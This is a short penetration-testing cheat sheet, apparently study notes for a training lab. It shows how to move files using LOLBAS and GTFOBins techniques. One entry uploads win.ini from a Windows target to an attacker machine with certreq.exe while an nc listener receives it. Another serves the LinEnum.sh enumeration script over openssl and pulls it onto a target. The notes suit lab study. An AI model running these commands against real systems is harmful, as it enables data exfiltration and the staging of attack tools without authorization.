 --------------
# [LOLBAS](https://lolbas-project.github.io/)
-------------------------
### CertReq.exe
- Upload win.ini to Pwnbox
```shell
certreq.exe -Post -config http://$PWNBOX c:\windows\win.ini
```
- PWNBOX
```Bash
sudo nc -lvnp 80
```

------------
# [GTFOBins](https://gtfobins.github.io/)
-----------------
- Create Certificate in PWNBOX
```Shell
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```
- Stand up the server in PWNBOX
```Shell
openssl s_Server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
- Download files from $TARGET
```Shell
openssl s_client -connect $TARGET:80 -quiet > LinEnum.sh
```